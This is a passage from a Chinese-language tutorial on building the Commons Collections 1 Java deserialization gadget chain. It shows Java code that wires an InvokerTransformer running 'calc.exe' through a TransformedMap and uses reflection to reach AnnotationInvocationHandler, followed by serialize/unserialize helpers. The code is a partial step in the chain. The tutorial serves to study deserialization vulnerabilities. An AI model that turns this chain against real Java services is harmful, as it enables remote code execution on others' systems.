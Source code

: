 





到现在已经找到后半条链了，现在要找到一个遍历Map的地方，并且使用了setValue()，就可以执行后面的链子了



继续找调用了setValue()的不同类，最好找到满足条件并且在readObject方法下的， 通过Alt+F7直接找到setValue()

![image-20230405102345558](https://raw.githubusercontent.com/todis21/image/main/202304051555770.png)



在sun.reflect.annotation下发现了readObject⽅法，点进去查看，发现刚好满足条件，遍历集合，重写了readObject(),并且调用了setValue(),

![image-20230405102543904](https://raw.githubusercontent.com/todis21/image/main/202304051555873.png)



查看一下这个类的构造函数

构造⽅法传⼊两个参数，第⼀个是注解，第⼆个是map集合这个我们可以控制

![image-20230405103639780](https://raw.githubusercontent.com/todis21/image/main/202304051555799.png)

该类使⽤了class修饰 所以访问需要当前包下，这⾥需要使⽤反射加载才能调⽤这个构造⽅法

目前流程大概是这样子的：

```java
Runtime r = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[] {"calc.exe"});
HashMap<Object,Object> map = new HashMap<Object, Object>();
map.put("key","value");
Map<Object,Object> transformedMap  = TransformedMap.decorate(map,null,invokerTransformer);

Class c= Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor annotationInvocationHandlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
annotationInvocationHandlConstructor.setAccessible(true);
serialize(o);
unserialize("ser.bin");
```

serialize和unserialize如下：

```java
public static void serialize(Object obj) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
```
